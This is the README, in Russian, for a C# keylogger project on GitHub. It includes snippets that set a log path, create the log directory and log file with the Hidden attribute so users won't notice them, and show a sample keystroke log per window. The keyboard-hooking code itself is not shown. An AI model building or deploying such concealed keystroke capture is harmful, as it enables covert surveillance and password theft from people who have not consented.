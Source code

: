 # SoKeylogger

#### [README_EN](https://github.com/S0mbruh/SoKeylogger/blob/master/README.md)

### О программе

Разработано с использованием .NET framework 4.0 для большей совместимости.

Приложение позволяет записывать нажатия клавиш на ПК в файл.

#### Приложение было создано в рамках изучения C#. Я не несу ответственности за Ваши действия с приложением и исходным кодом.

### Настройки

Вы можете настроить некоторые параметры, меняя переменные в регионе #Settings.

```csharp
// personal ID of this application. helps to sort log files
private static readonly string KLGR_PERS_ID = "1";
// directory path
private static readonly string DIR_PATH = @"C:\directory name";
// log file name
private static readonly string LOG_FILENAME = @"\filename" + KLGR_PERS_ID + ".txt";
// full path to log file
private static readonly string LOGFILE_FP = DIR_PATH + LOG_FILENAME;
```

### Запись логов

Если директория для логов не существует, она создается и ей устанавливается атрибут "Hidden".<br/>
Пользователь не сможет увидеть директорию без включения функции просмотра скрытых элементов в проводнике.

```csharp
if (!Directory.Exists(DIR_PATH)) {
    DirectoryInfo di = Directory.CreateDirectory(DIR_PATH);
    di.Attributes = FileAttributes.Directory | FileAttributes.Hidden;
}
```

То же и с log файлом. Он создается, если не существует и ему устанавливается атрибут "Hidden".

```csharp
if (!File.Exists(LOGFILE_FP)) {    
    File.Create(LOGFILE_FP);
    FileInfo fi = new FileInfo(LOGFILE_FP);
    fi.Attributes = FileAttributes.Hidden;
}
```

При перезапуске приложения log файл не будет удален. Программа будет добавлять новые записи в конец файла.<br />
Log файл содержит записи в таком виде: [Дата Время][Заголовок активного окна] -> [Клавиша]

```
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> E
[01.01.1970 00:00:00][Notepad] -> S
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> Space
[01.01.1970 00:00:00][Notepad] -> T
[01.01.1970 00:00:00][Notepad] -> H
[01.01.1970 00:00:00][Notepad] -> I
[01.01.1970 00:00:00][Notepad] -> S
```

### Известные проблемы

- При первом запуске приложения, запись логов не начнется, если дикертория и log файл не существуют.
